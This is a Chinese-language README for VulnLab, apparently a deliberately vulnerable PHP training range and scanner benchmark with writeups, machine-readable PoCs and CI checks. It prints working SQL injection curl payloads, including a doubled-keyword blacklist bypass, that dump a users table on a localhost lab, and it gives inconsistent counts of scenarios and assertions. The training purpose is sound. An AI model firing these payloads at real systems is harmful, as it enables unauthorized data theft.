

# VulnLab — 自研 Web 漏洞靶场与 PoC 基准集

[](https://github.com/hediwen831-star/vulnlab/actions/workflows/ci.yml)
[](https://www.php.net/)
[](#漏洞矩阵)
[](tests/verify_lab.py)
[](LICENSE)
[](docker-compose.yml)

> 用 PHP 从零写一个覆盖 OWASP Top 10 的漏洞靶场。**每个漏洞都配源码、Writeup、机读 PoC 与修复对照。**

**为什么这个靶场和别的不一样**

大多数靶场只提供「有漏洞的页面」。VulnLab 额外做了四件事：

| | 多数靶场 | VulnLab |
|---|---|---|
| 源码可见性 | 要自己去翻仓库 | 页面右上角一键查看当前页源码 |
| 语句级反馈 | 无 | **页面直接贴出服务端实际执行的 SQL** |
| 修复教学 | 通常没有 | 每个漏洞配 `high` 档修复对照 + 为什么有效 |
| 自动化 | 无 | 每个漏洞配**可被扫描器消费的 YAML PoC**，可作评测基准 |

第三点和第四点是重点。一个只会教你「这里有漏洞」的靶场，培养出的是只会说「这里有问题」的人；
而真正重要的是「应该怎么修，以及为什么这么修有效」。

---

## 文档

| 文档 | 内容 |
|---|---|
| [docs/DESIGN.md](docs/DESIGN.md) | **技术栈、设计原理、教学设计、与现有靶场的差异** |
| [writeups/sqli.md](writeups/sqli.md) | SQL 注入完整 Writeup（原理 → 利用 → 修复） |
| 本 README | 项目概览、漏洞矩阵、快速开始 |

---

## 快速开始

### 方式一：零依赖（推荐）

只要本机有 **PHP 7.2+**（需启用 `pdo_sqlite`，PHP 官方 Windows 包默认自带）：

```bash
# Windows
start.bat

# Linux / macOS / Git Bash
chmod +x start.sh && ./start.sh

# 或者手动指定 PHP 路径
set PHP=D:\phpStudy\PHPTutorial\php\php-7.2.1-nts\php.exe
start.bat
```

打开 <http://127.0.0.1:8080>。

> 启动脚本会同时起**两个** HTTP 服务：
> `8080` 主靶场（你访问的那个），`8090` 模拟的「内网服务」（SSRF 场景的攻击目标）。
>
> 为什么要起两个：PHP 内置服务器是**单进程**的，而 SSRF 场景里服务端需要向自己发请求 ——
> 单进程下这会死锁。分两个端口既解决了这个问题，
> 也让 SSRF 的因果链更直观：你从 8080 发起，请求实际是从服务器发到 8090 的。

**不需要 MySQL，不需要建库导数据。** 首次访问时 `config.php` 会自动创建
`html/data/vulnlab.db` 并灌入种子数据。这是刻意的设计取舍：
让「clone 下来」到「看到漏洞」之间只隔一条命令，否则大部分人会在配置环境这一步放弃。

### 方式二：Docker

```bash
docker compose up
```

### 验证漏洞

```bash
python pocs/poc_sqli.py
```

零第三方依赖（只用标准库），会依次完成报错型检测、列数探测、
UNION 拖库、黑名单绕过与修复有效性验证。

---

## 架构总览



**这个靶场和常见的「有漏洞的页面集合」的区别就在于四件套是强制的。**

只有第 ① 项的话，它就是个练手站点；加上 ②③④ 之后，
它变成了一份**可被验证、可被自动化消费、且能对照学习修复方式**的基准集。

第 ④ 项尤其重要：**「打不动」的档位本身是一种资产** ——
它证明了修复方式确实有效。CI 里那 16 条断言守的就是这批资产不被改坏。

---

## 漏洞矩阵

| 漏洞类型 | low | medium | high（修复对照） | Writeup | 机读 PoC |
|---|:--:|:--:|:--:|:--:|:--:|
| **SQL 注入** | ✓ | ✓ | ✓ | [sqli.md](writeups/sqli.md) | ✓ |
| **XSS（反射型）** | ✓ | ✓ | ✓ | [xss.md](writeups/xss.md) | ✓ |
| **文件上传（getshell）** | ✓ | ✓ | ✓ | [upload.md](writeups/upload.md) | ✓ |
| **SSRF（打内网服务）** | ✓ | ✓ | ✓ | [ssrf.md](writeups/ssrf.md) | ✓ |
| **命令注入（RCE）** | ✓ | ✓ | ✓ | [cmdi.md](writeups/cmdi.md) | ✓ |
| PHP 反序列化（POP 链） | 规划中 | — | — | — | — |
| 越权（水平 / 垂直 / IDOR） | 规划中 | — | — | — | — |
| 命令注入与过滤绕过 | 规划中 | — | — | — | — |
| 文件包含（LFI / RFI） | 规划中 | — | — | — | — |
| XXE | 规划中 | — | — | — | — |
| JWT 伪造与弱密钥 | 规划中 | — | — | — | — |
| CSRF | 规划中 | — | — | — | — |
| SSTI | 规划中 | — | — | — | — |

> 每新增一个场景，都要同时补齐 **Writeup + PoC + 修复对照** 三件套。
> 只加一个「有漏洞的页面」不算完成 —— 这是本项目的硬性约定。

### SQL 注入三档的设计

三档不是「同一个漏洞重复三遍」，而是三种**不同性质**的防护与对应的绕过思路：

| 档位 | 防护手段 | 注入点类型 | 绕过关键 | 教学重点 |
|---|---|---|---|---|
| `low` | 无 | 数字型（无引号） | 直接 UNION，不需要闭合引号 | 先判断「有没有引号」 |
| `medium` | 关键字黑名单 `str_ireplace` | 字符型（有引号） | **双写绕过**：`ununionion` → `union` | **黑名单原理上必败** |
| `high` | 参数化查询 + 类型校验 | 不可注入 | — | 根治手段与「数据代码分离」 |

`medium` 档的绕过特别值得看：`str_ireplace` 是**单次非递归**替换，
删掉 `ununionion` 中间的 `union` 之后，剩下的 `un` + `ion` 正好拼回 `union`。
页面会把「你的输入」和「过滤后」并排显示出来，你能量化地看到过滤器做了什么。

---

## 实测利用链

```bash
# ① low 档：数字型 UNION 注入，直接拖出通关凭证
curl "http://127.0.0.1:8080/sqli/low.php?id=-1%20UNION%20SELECT%201,username,secret,role%20FROM%20users"
# → VULNLAB{union_select_master}

# ② medium 档：先试 low 的 payload（会被过滤打不动）
curl "http://127.0.0.1:8080/sqli/medium.php?id=1'%20union%20select%201,username,secret,role%20from%20users--%20"
# → 过滤器检测到敏感关键字 → 数据库错误

# ③ medium 档：双写绕过
curl "http://127.0.0.1:8080/sqli/medium.php?id=1'%20ununionion%20seselectlect%201,username,secret,role%20frfromom%20users--%20"
# → VULNLAB{union_select_master}

# ④ high 档：同一 payload 被类型校验挡在数据库之前
curl "http://127.0.0.1:8080/sqli/high.php?id=-1%20UNION%20SELECT%201,username,secret,role%20FROM%20users"
# → 输入被拒绝：参数 id 必须是纯数字
```

---

## 作为扫描器评测基准

`pocs/` 下的 PoC 是**机读**的，可直接被支持该格式的扫描引擎加载：

```bash
# 用配套的攻击面平台引擎跑本靶场
cd ../attack-surface
python -m asp.cli poc run http://127.0.0.1:8080 --dir ../vulnlab/pocs
```

实测输出（7 个 PoC，0.17 秒）：

```
high    vulnlab-sqli-low-union      http://127.0.0.1:8080/sqli/low.php?id=-1%20UNION...   1.00
high    sql-injection-error-based   http://127.0.0.1:8080/sqli/low.php?id=1%27            0.80
high    sql-injection-error-based   http://127.0.0.1:8080/sqli/medium.php?id=1%27         0.80
```

为什么它能当基准？

1. **每个场景的 URL 是确定的** —— 不用猜路径
2. **「有没有漏洞」的答案是确定的** —— 低档有、高档没有，不存在模糊地带
3. **提供误报诱饵** —— `high` 档就是天然的假阳性测试点：
   扫描器如果在这里报「存在 SQL 注入」，说明它的判定逻辑有问题

第 3 点尤其有用。**一个只会说「到处都有漏洞」的扫描器，比什么都不报更糟。**

---

## CI 回归守护

靶场里最容易被悄悄破坏的，不是功能，是**安全属性**。

`high.php` 的价值在于「打不动」。但如果后来有人改代码时把参数化查询改回拼接，
这个档位就悄悄失效了 —— 而功能测试不会发现，因为页面看起来还是正常的。

所以 `.github/workflows/ci.yml` 把「哪些档位应该能打通、哪些应该打不通」
变成了**可执行的断言**（`tests/verify_lab.py`，共 **21 条**，覆盖全部五个场景）：

**SQL 注入**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · UNION 注入可读到 secret | 应成功 | 漏洞场景没被改坏 |
| low 档 · 原查询为 4 列 | 应成功 | 列数变了会让所有现成 payload 失效 |
| low 档 · 按设计回显数据库错误 | 应回显 | 报错型注入的教学场景 |
| medium 档 · 裸 payload 被阻断 | 应阻断 | 黑名单过滤确实在生效 |
| medium 档 · 双写绕过可利用 | 应成功 | 绕过手法没被「修好」 |
| high 档 · 注入被拒绝 | 应拒绝 | **修复没有回退** |
| high 档 · 不回显数据库错误 | 应不回显 | 错误信息收敛没被关掉 |
| high 档 · 正常查询仍可用 | 应可用 | **修复没有过度** |

**XSS**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 载荷未转义输出 | 应未转义 | 漏洞场景没被改坏 |
| medium 档 · img 事件属性绕过 | 应绕过 | 黑名单的绕过点还在 |
| high 档 · 载荷被转义 | 应转义 | **输出编码没被去掉** |

**文件上传**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 接受 .php 后缀 | 应接受 | 漏洞场景没被改坏 |
| high 档 · 拒绝 .php 后缀 | 应拒绝 | **后缀白名单没被去掉** |

**SSRF**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 可访问内网服务 | 应成功 | 漏洞场景没被改坏 |
| high 档 · 拒绝内网地址 | 应拒绝 | **解析后校验没被去掉**（含 localhost 写法） |
| high 档 · 拒绝 file 协议 | 应拒绝 | **协议白名单没被去掉** |

**命令注入**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 可追加命令 | 应成功 | 漏洞场景没被改坏 |
| medium 档 · 分号被拦 | 应拦截 | 过滤器确实在生效 |
| medium 档 · `&` 绕过黑名单 | 应绕过 | 黑名单的漏项（模拟真实疏漏） |
| high 档 · 注入被拒绝 | 应拒绝 | **白名单 + 转义没被去掉** |
| high 档 · 正常输入仍可用 | 应可用 | **修复没有过度** |

最后一条是**反向保护**：防止有人为了「修得更安全」而把功能改坏 ——
安全修复不该以牺牲功能为代价。

### 这个 CI 真的有用吗

一个永远绿的 CI 是没有价值的。所以实测过它能不能抓到回归：

```
阶段 1  故意破坏 high.php（删类型校验 + 参数化改回拼接 + 恢复错误回显）
        → 6/8 通过，2 条断言失败，退出码 1      ✅ CI 报红
阶段 2  从备份恢复原文件
        → 8/8 通过，退出码 0                    ✅ CI 转绿
```

本地随时可以复跑：

```bash
python tests/verify_lab.py                    # 人类可读输出
python tests/verify_lab.py --json             # 机器可读
```

退出码约定：`0` 全部通过 / `1` 有断言失败 / `2` 靶场不可达（环境问题）。

---

## 目录结构

```
vulnlab/
├── html/                       # Web 根目录（php -S 的 docroot）
│   ├── index.php               # 漏洞矩阵首页
│   ├── config.php              # 配置 + 数据库自动初始化 + 种子数据
│   ├── source.php              # 源码查看器（顺便演示「任意文件读取」怎么防）
│   ├── lib/
│   │   └── layout.php          # 页面布局组件
│   ├── sqli/
│   │   ├── low.php             # 数字型注入，无防护
│   │   ├── medium.php          # 黑名单过滤，可双写绕过
│   │   └── high.php            # 参数化查询（修复对照）
│   └── data/                   # SQLite 数据文件（运行时生成，不入库）
├── writeups/
│   └── sqli.md                 # SQL 注入完整 Writeup
├── docs/
│   └── DESIGN.md               # 设计文档（技术栈 / 设计原理 / 与现有靶场的差异）
├── tests/
│   └── verify_lab.py           # CI 回归验证（8 条安全属性断言）
├── pocs/
│   ├── vulnlab-sqli-low-union.yaml     # 机读 PoC（确定性检测 + 提取凭证）
│   ├── sql-injection-error-based.yaml  # 机读 PoC（报错型存在性检测）
│   └── poc_sqli.py                     # 独立 PoC 脚本（零依赖）
├── .github/workflows/ci.yml    # CI：PHP 7.4 / 8.1 矩阵 + 安全属性回归
├── docker-compose.yml
├── Dockerfile
├── start.bat / start.sh
└── README.md
```

---

## Writeup 收录

- [SQL 注入完整 Writeup](writeups/sqli.md) —— 原理 → 注入点类型判断 → 列数探测 → 回显位定位 →
  UNION 拖库 → 布尔/时间盲注思路 → 黑名单绕过（含 6 种绕过手法）→ 修复原理 → 防御清单

---

## 一个真实的调试记录

项目开发过程中，「列数探测」和「Swagger 暴露检测」都踩了同一个坑：

> 数据库的报错信息会把**出错的语句原文**回显出来，而我们的 payload 就在那段原文里。
> 于是「注入失败但报错回显」也会让标记串出现 —— 报出的列数是 1 而不是 4。

**检测特征被检测行为本身「制造」了出来** —— 这是扫描器误报最典型的来源。

修复方式：

1. 用**反向匹配器**（`negative: true`）把错误页整类排除
2. 改用**结构化特征**（JSON 里的 `"paths": {`）而不是裸关键词（`swagger`）

修完之后在靶场上误报从 6 条降到 3 条，剩下的 3 条全是真实的 SQL 注入。

相关代码与注释见：
- `pocs/poc_sqli.py` 的 `detect_columns()`
- `pocs/vulnlab-sqli-low-union.yaml` 的 negative matcher
- 配套平台的 `asp/pocs/swagger-api-docs-exposure.yaml`

---

## ⚠️ 免责声明

**本项目是故意包含漏洞的教学代码。**

- ✅ 允许：本地环境学习、授权渗透测试培训、扫描器效果评测、CTF 训练
- ❌ 禁止：部署到公网、用于任何未经授权的测试、把其中代码用于生产系统

靶场中的「凭据」全是假数据，`secret` 字段只是可验证的通关标记，不含任何真实信息。

**所有测试请只针对你自己拥有或已获得书面授权的目标。**

---

## 路线图

- [x] SQL 注入（low / medium / high + Writeup + PoC）
- [ ] XSS（反射 / 存储 / DOM）
- [ ] 文件上传绕过（后缀 / MIME / 内容检测 / 条件竞争）
- [ ] SSRF（含 gopher 协议打内网 Redis）
- [ ] PHP 反序列化（POP 链构造、`__wakeup` 绕过）
- [ ] 越权（水平 / 垂直 / IDOR）
- [ ] 命令注入与过滤绕过
- [ ] 文件包含（LFI / RFI / `php://filter` 读源码）
- [ ] JWT 伪造与弱密钥爆破
- [ ] 为每个漏洞补充「自动化利用脚本」与「基准测试用例集」

---

## 许可

MIT（教学用途）。使用者需自行确保合规。
